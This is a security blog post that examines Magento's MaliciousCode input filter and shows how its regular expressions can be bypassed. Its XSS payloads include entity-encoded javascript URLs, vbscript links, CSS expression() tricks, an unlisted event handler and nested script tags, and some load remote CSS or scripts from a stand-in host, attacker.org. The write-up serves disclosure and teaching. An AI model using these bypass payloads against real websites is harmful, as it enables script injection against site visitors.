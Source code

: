 ```yaml
---
layout: post
title: "Circumventing XSS filters"
thumbnail: water-pipe-240.jpg
date: 2016-01-29
---
```


XSS or cross site scripting is an attack where an hacker injects Javascript in a page that is then run by another visitor. To prevent this, some software tries to remove any Javascript from the input. This is pretty hard to implement correctly.  In this article I will show some code that tries to remove Javascript code from the input, and show several ways to circumvent this.

Take for example the class [`Mage_Core_Model_Input_Filter_MaliciousCode`](https://github.com/nexcess/magento/blob/master/app/code/core/Mage/Core/Model/Input/Filter/MaliciousCode.php)
from the webshop software [Magento](https://magento.com/). This class is meant to filter "malicious code", which means any way to insert Javascript. 

The code looks like this:

    protected $_expressions = array(
        '/(\/\*.*\*\/)/Us',
        '/(\t)/',
        '/(javascript\s*:)/Usi',
        '/(@import)/Usi',
        '/style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis',
        '/(ondblclick|onclick|onkeydown|onkeypress|onkeyup|onmousedown|onmousemove|onmouseout|onmouseover|onmouseup|onload|onunload|onerror)=[^<]*(?=\>)/Uis',
        '/<\/?(script|meta|link|frame|iframe).*>/Uis',
        '/src=[^<]*base64[^<]*(?=\>)/Uis',
    );

    function filter($value) {
        return preg_replace($this->_expressions, '', $value);
    }

The variable `$_expressions` contains a list of regular expressions that are removed from the text by the `preg_replace`. So if you type `<script>foo</script>`, both tags will be removed and only `foo` will remain.

Let's look at ways to circumvent this filter. Our goal is to pass some HTML through it that executes Javascript. The filter has several expressions that are meant to prevent this:

| Filter regex | Possible exploit |
| ------------ | ---------------- |
| `(javascript\s*:)` | `<a href="javascript:alert('xss')">` |
| `@import` | `@import url(http://attacker.org/malicious.css)` |
| `style=…` | `<div style="color: expression(alert('XSS'))">` |
| `ondblclick|onclick|…` | `<div onclick="alert('xss')">` | 
| `<script…` | `<script>alert("XSS")</script>` |

## Javascript URL

A link can be made to run javascript by using `javascript:…` in the URL:

    <a href="javascript:alert('test')">link</a>

Our filter removes `javascript:` from the code, so we can't use the above code directly. We can try to change the `javascript:` part so that it is still executed by the browser, but doesn't exactly match the regex. Let's try to URL-encode a letter:

    <a href="java&#115;cript:alert('xss')">link</a>

The regex no longer matches, but the browser will still execute this because it does URL-decode the link before using it.

Besides Javascript there is also VBScript. It is deprecated and disabled in IE11, but works on older versions of Internet Explorer or if you put IE11 in IE10 emulation mode. We can use this to run some code in the same way as Javascript links:

    <a href='vbscript:MsgBox("XSS")'>link</a>

## CSS import

Internet Explorer supports Javascript expressions in CSS, called [dynamic properties](https://msdn.microsoft.com/en-us/library/ms537634(v=vs.85).aspx). Allowing an attacker to load an external CSS stylesheet would thus be dangerous, as the attacker can now run Javascript in the context of the original page.

    <style>
    @import url("http://attacker.org/malicious.css");
    </style>

And in malicious.css:

    body {
        color: expression(alert('XSS'));
    }

We can circumvent the `@import` filter by using a backslash escape character in the CSS:

    <style>
    @imp\ort url("http://attacker.org/malicious.css");
    </style>

Internet Explorer allows for the backslash and now it passes our filter.

## Inline style

We can also use the dynamic properties supported by Internet Explorer in inline style:

    <div style="color: expression(alert('XSS'))">

The filter will check for `style`, followed by anything that is not a `<`, followed by `expression`:

    /style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis

So let's put a `<` somewhere in there:

    <div style="color: '<'; color: expression(alert('XSS'))">

This passes the filter because the `[^<]` does not match our `<`, and this is still valid CSS. Although `<` is not a valid color, the rest of the CSS is still used.


## Javascript events

One can define event handlers on an element like this:

    <div onclick="alert('xss')">

Now this Javascript would only be run when someone clicks on it, but there are also events that are triggered when the page loads or when the user moves his mouse. Many of these events are removed by the filter, but it simply does not contain all event handlers. For example, `onmouseenter` is missing:

    <div onmouseenter="alert('xss')">

Our code is run when the user moves his mouse onto the div.

Another way to circumvent this is to put a space between the attribute and the `=`. Magento fixed this in a later version of the MaliciousCode filter.

    <div onclick ="alert('xss')">

## Script tag

A script tag can be used to define inline script, or load a script file from another location:

    <script>alert("XSS")</script>
    <script src="http://attacker.org/malicious.js"></script>

Our filter removes any `<script>` tags. However, it only does so once, so we can make sure that the content that we want ends up after removing the tags:

    <scr<script>ipt>alert("XSS")</scr<script>ipt>

The filter removes the two occurences of `<script>`, and we end up with exactly the code that we want. In fact, this method of nesting tags can be used to circumvent any of filter expressions.

## Conclusion

Although the filter tries to block several methods of script injection, we found circumventions for all of them. It is not easy to create a filter to prevent XSS attacks. There are several types of encoding and a number of different browser behaviours you have to take into account. This makes it hard on the developer and easy on the attacker.

## Security implications

I have shown some ways to get Javascript through this filter anyway. This could be a security risk, except that this filter is never used with untrusted input. As can be read in the [Magento 2.0.1 release notes](https://magento.com/security/patches/magento-201-security-update):

> A user can easily bypass the MaliciousCode filter function when entering HTML code. However, Magento rarely uses this filter, and none of its current usages allow unauthenticated user input.

Furthermore, I contacted Magento on 23 January and they didn't consider this a security issue, so I felt free to publish this article.
